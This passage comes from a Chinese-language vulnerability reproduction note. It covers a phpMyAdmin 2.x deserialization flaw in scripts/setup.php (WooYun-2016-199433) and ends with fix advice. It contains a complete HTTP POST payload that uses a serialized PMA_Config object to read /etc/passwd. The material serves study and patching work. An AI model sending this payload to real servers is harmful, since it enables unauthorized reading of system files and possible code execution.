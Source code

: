 #### 修复建议
1. 升级phpMyAdmin
2. 限制phpMyAdmin访问


### phpmyadmin scripts/setup.php 反序列化漏洞（WooYun-2016-199433）

#### 漏洞描述
phpmyadmin 2.x版本中存在一处反序列化漏洞，通过该漏洞，攻击者可以读取任意文件或执行任意代码。
#### 影响版本
phpMyAdmin 2.x版本
#### 漏洞复现
发送如下数据包，即可读取`/etc/passwd`：
```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```
[PhpMyAdmin某版本无需登录任意文件包含导致代码执行(可getshell)漏洞分析](https://f002.backblazeb2.com/file/sec-news-backup/files/writeup/www.mottoin.com/4cb63e7c-9151-42da-a5bd-e6e29e7ff2f8/index.html)
#### 修复建议
- 尽快升级到最新版
- 将setup.php中28行中的”configuration”改为传入其他值
- 直接删除scripts目录，防止被恶意攻击。